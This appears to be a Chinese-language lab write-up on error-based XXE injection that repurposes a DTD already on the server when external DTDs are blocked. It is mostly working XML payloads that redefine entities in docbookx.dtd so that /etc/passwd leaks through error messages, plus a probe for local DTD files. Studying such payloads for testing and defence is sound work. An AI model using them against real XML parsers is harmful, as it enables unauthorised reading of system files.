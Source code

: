 # 当服务器不允许，加载外部dtd文件时，可以通过服务器本地的dtd文件来执行xxe

## poc:

```javascript
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

该DTD执行以下步骤：

- 定义一个名为的XML参数实体local_dtd，其中包含服务器文件系统上存在的外部DTD文件的内容。

- 重新定义名为的XML参数实体custom_entity，该参数实体已经在外部DTD文件中定义。该实体被重新定义为包含已描述的基于错误的XXE利用，用于触发包含/etc/passwd文件内容的错误消息。

- 使用local_dtd实体，以便解释外部DTD，包括custom_entity实体的重新定义值。这将导致所需的错误消息。



## 本地dtd文件可以通过以下请求来测试：

```javascript
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```



## 该实验poc:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
//本地dtd文件地址
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

